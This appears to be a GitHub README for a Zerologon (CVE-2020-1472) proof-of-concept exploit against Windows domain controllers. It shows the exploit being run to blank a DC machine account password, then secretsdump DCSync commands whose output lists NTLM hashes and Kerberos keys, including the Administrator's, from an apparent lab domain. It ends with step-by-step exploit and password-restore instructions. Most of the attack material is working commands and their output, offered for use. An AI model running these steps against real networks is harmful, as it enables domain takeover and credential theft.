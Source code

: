 # CVE-2020-1472 - Zero-Logon POC
<p align='center'>
  <img src='PoC - CVE-2020-1472.png' alt="huyqa-home.com">
</p>
![alt text](https://github.com/harshil-shah004/zerologon-CVE-2020-1472/blob/master/PoC%20-%20CVE-2020-1472.png)

This exploit requires you to use the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket).

Ensure impacket installation is done with netlogon structures added.

Note : 

1. By default, successful exploitation changes the password of the DC Account. 

2. Allows DCSync

3. Breaks communication with other domain controllers (Be careful!)

Original Research & information [here](https://www.secura.com/blog/zero-logon)

## Installation

Requires Python 3.7 or higher and Pip. Install dependencies as follows:

    pip install -r requirements.txt

<p align='center'>
  <img src='./Screenshots/install-req.png' alt="huyqa-home.com">
</p>
    
## Before Zerologon 

<p align='center'>
  <img src='./Screenshots/before-zerologon.png alt="huyqa-home.com">
</p>
Unable to dump secrets!

## Performing Zerologon Attack!

    huyqa@bananoname-pc:~/Music/zerologon-CVE-2020-1472$ python3 zero-logon-exploit.py AD-SRV 192.168.56.129
    Performing authentication attempts...
    ==================================================================================================================
    Target vulnerable, changing account password to empty string

    Result: 0

    Exploit complete!


<p align='center'>
  <img src='./Screenshots/Screenshot from 2023-12-28 15-35-49.png' alt="huyqa-home.com">
</p>

## After Zerologon
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user huyqa
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    huyqa.local\huyqa:1103:aad3b435b51404eeaad3b435b51404ee:fcf2d6f9c8a83291396a6555f182b8a7:::
    [*] Kerberos keys grabbed
    huyqa.local\huyqa:aes256-cts-hmac-sha1-96:bb6c792161d04c880b999be788354b1d78eb9eea90e6cf9cb5370e62f67ed46f
    huyqa.local\huyqa:aes128-cts-hmac-sha1-96:2f1a2be83abed0d24481afdf59f1a830
    huyqa.local\huyqa:des-cbc-md5:624aa89132f4987f
    [*] Cleaning up... 
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user Administrator
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d4ff5ed8d5357d3d073e34023e24c48:::
    [*] Cleaning up... 

<p align='center'>
  <img src='./Screenshots/after-zerologon1.png' alt="huyqa-home.com">
</p>
Successfully dumped NTDS.dit secrets!

## Exploit Steps
- Read the related articles/blogs/whitepapers to know the objective of the exploit
- Run `python3 zero-logon-exploit.py` with IP and netbios name of DC
- DCSync with secretsdump, using `-just-dc` and `-no-pass` or empty hashes and the `DCHOSTNAME$` account


## Restore steps
If you make sure that [this line](https://github.com/SecureAuthCorp/impacket/blob/64ce46580286b5ab15a4737bddf85201ce2adde3/impacket/examples/secretsdump.py#L1530) in secretsdump passes (so make it `if True:` for example) secretsdump will also dump the plaintext (hex encoded) machine account password from the registry. You can do this by running it against the same DC and using a DA account.

Alternatively you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes, this saves you modifying the library).

With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target, so for example:

```
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

Credits for Exploit Provision : [dirkjanm](https://github.com/dirkjanm) 
